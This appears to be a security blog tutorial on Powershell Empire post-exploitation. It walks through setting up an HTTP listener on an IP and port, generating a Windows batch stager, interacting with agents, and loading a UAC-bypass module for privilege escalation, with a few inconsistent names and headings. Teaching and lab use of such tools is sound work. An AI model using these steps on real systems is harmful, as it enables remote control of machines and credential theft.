# Welcome to Cyber Secure Labs

Created: December 9, 2021 7:33 PM

Public Site for sharing security writes

## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

Windows Platform: Exploitation and post exploits are performed using Powershell.

Linux & macOS: Exploitation requires Python 2.6 or 2.7

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](./Untitled%201.png)

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name test2

set Host 192.168.119.208

set Port 4444

execute

```

![Untitled](./Untitled%202.png)

### Setting up a stager:

```
usestager windows/launcher_bat

set Listener test

execute

```

### Setting up a stager:

```
agents

```

### Interacting with an agent

```
interact S2PRDACB

```

### Post Exploitation Commands:

```
info

```

### Elevating Privileges and Extracting Password Hashes

To do this, type the following command:

```
usemodule powershell/privesc/bypassuac_env

```

Set Listener to http, since we are using a http listener, and Agent to the agent from the victim machine.

use the info command to see what options are needed to be set.

```
info

```
